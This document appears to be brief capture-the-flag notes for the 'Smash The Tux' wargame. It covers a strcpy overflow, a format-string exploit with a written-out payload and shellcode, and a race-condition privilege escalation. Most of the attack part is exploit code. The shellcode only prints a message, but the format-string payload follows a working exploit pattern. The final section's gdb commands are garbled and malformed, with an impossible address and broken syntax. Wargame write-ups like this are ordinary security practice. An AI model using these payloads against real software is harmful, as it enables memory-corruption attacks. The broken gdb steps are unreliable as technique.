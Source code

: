 
# Smash The Tux

##0x00
- strcpy buffer overflow

simply pass in the large buffer and point to the address of the start of the buffer for your boomcode


##0x01
- format string, no validation

```bash
open('/tmp/foo.bin', 'wb').write("\xcc\xcc\xcc\xcc" + '\x54\x97\x04\x08' + '\x55\x97\x04\x08' + '\x56\x97\x04\x08' + '\x57\x97\x04\x08'+ 'A'*12 + '%5$n' + 'A'*0xD3 + '%6$n' + 'foobarbaZbar' + '%7$n' + 'A'*0xc0 + '%8$n' )
```

- some boom code
```bash
SHELLCODE += '\xeb\x13\x59\x31\xc0\xb0\x04\x31\xdb\x43\x31\xd2\xb2\x0f\xcd\x80\xb0\x01\x4b\xcd\x80\xe8\xe8\xff\xff\xff\x62\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6d\x21\x0a\x0d'
```

0x02
- privilege escalation
- theres a race conditions for uid and accessing the file, so we will override the memory via gdb as user and show it works

objdump at stat, first add, change argv to be ".readthis"

bp call to fgets
gdb > x/16s 0xbset {char [size]}

`x/16s set charset {char[0x0a]} 0xbfffff8f5=".readthis"`


{charset ".readthis"

